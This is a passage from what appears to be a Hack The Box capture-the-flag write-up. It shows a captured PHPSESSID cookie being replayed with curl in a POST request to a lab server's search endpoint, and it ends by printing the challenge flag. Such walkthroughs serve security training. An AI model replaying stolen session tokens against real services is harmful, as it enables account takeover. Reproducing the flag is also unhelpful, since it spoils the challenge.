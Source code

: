 ![](images/Pasted%20image%2020250122155352.png)

We got it: `PHPSESSID=mu7v746ceongdd2p8705ucplkp`, let's use curl and do a request to read the flag:

`curl -X POST -d '{"search":"flag"}' http://94.237.54.116:34888/search.php -b 'PHPSESSID=mu7v746ceongdd2p8705ucplkp' -H 'Content-Type: application/json' -s | jq`

We can use `jq` to view in a better format and `-s` flag to make it silent:

![](images/Pasted%20image%2020250122155716.png)

Got the flag: `HTB{p0$t_r3p34t3r}`
